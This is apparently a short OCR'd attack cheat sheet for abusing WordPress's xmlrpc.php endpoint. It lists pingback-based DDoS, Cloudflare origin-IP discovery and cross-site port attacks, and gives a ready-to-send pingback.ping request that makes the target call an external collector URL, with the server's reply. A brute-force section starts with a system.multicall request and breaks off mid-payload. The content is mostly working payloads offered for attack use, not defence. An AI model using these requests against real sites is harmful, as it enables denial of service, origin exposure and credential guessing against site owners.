 ## XML-RPC pingbacks attacks
1. Distributed denial-of-service (DDoS) attacks<br>
2. Cloudflare Protection Bypass (find real server ip)<br>
3. XSPA (Cross Site Port Attack)<br>

```xml
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 303

<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://postb.in/1562017983221-4377199190203</string></value>
</param>
<param>
<value><string>https://example.com/</string></value>
</param>
</params>
</methodCall>
```

response :
```xml
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 21:53:56 GMT
Server: Apache
Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
Connection: close
Vary: Accept-Encoding
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 370
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>0</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string></string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```
<br><br>
## Brute force attacks
```xml
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 1560

<?xml version="1.0"?>
<methodCall><methodName>system.multicall</methodName><params><param><value><array><data>
```